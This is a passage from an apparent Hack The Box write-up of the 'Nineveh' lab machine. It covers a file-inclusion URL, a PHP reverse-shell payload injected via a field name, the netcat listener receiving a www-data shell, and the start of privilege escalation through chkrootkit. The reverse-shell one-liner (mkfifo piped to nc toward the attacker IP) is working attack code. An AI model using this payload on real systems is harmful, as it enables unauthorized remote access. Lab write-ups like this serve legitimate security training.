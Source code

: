 [http://nineveh.htb/department/manage.php?notes=/var/tmp/ninevehNotes.php](http://nineveh.htb/department/manage.php?notes=/var/tmp/ninevehNotes.php): 

![Untitled](/assets/images/2021-11-10-nineveh/Untitled12.png)

It dit not work, so I tried a php reverse shell:

```php
<?php 
exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.28 4444>/tmp/f"); 
?>
```

I noticed that I need to insert the code into the name of the field:

![Untitled](/assets/images/2021-11-10-nineveh/Untitled13.png)

Now, I reload the page and I have a shell:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/nineveh]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.17.28] from (UNKNOWN) [10.10.10.43] 36222
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

I cannot get the user flag, permissions are denied.

# Privilege Escalation

---

After running some enumeration scripts, I found chkrootkit:

```bash
www-data@nineveh:/usr/bin$ ls -l chkrootkit
-rwx--x--x 1 root root 76181 Jul  2  2017 chkrootkit
```
